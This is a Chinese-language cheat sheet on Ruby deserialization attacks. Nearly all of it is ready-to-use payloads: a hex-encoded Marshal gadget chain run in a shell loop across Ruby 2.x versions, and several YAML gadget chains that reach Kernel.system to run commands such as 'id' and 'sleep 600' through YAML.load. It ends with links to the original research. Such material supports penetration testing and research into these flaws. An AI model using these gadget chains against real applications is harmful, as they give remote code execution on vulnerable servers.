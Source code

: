 # Ruby 反序列化

> Ruby 反序列化是将序列化的数据转换回 Ruby 对象的过程，通常使用 YAML、Marshal 或 JSON 等格式。例如，Ruby 的 Marshal 模块常用于此，因为它可以序列化和反序列化复杂的 Ruby 对象。

## 概述

* [Marshal 反序列化](#marshal-反序列化)
* [YAML 反序列化](#yaml-反序列化)
* [参考文献](#参考文献)

## Marshal 反序列化

针对 Ruby 2.0 到 2.5 的反序列化小工具链生成和验证脚本：

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## YAML 反序列化

易受攻击的代码：

```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

适用于 Ruby <= 2.7.2 的通用小工具：

```yaml
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

适用于 Ruby 2.x 至 3.x 的通用小工具：

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sleep 600
         method_id: :resolve
```

## 参考文献

* [Ruby 2.X 全局 RCE 反序列化小工具链 - Luke Jahnke - 2018年11月8日](https://www.elttam.com.au/blog/ruby-deserialization/)
* [通过 Ruby YAML.load 实现全局 RCE - Etienne Stalmans (@_staaldraad) - 2019年3月2日](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
* [Ruby 2.x 全局 RCE 反序列化小工具链 - PentesterLab - 2024](https://pentesterlab.com/exercises/ruby_ugadget/course)
* [通过 Ruby YAML.load 实现全局 RCE（版本 > 2.7）- Etienne Stalmans (@_staaldraad) - 2021年1月9日](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
* [通过 YAML 反序列化实现盲远程代码执行 - Colin McQueen - 2021年6月9日](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)